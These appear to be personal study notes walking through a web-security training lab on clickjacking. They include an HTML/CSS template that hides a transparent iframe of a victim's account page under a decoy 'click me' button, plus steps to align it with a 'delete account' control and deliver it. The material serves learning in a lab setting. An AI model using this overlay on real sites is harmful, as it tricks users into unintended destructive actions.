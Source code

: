 # Clickjacking Notes

## Methodology

Based on the HTML from the first lab you can create an iframe that displays over a users account page

## Labs walkthrough

### Basic clickjacking with CSRF token protection

- In the exploit server craft a payload like:

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

- we need to change our lab id, setting our height and width variables to fit correctly, recommended is to start with 700px and 500px
- then we need to adjust the top and side values so that the "test me" decoy action aligh with "delecte accounts" button, suggested start with 300px and 60px
- click store and view exploit to see if the iframe does place correctly, if not adjust the top and side values
- once correct change "test me" to "click me" and deliver to victim


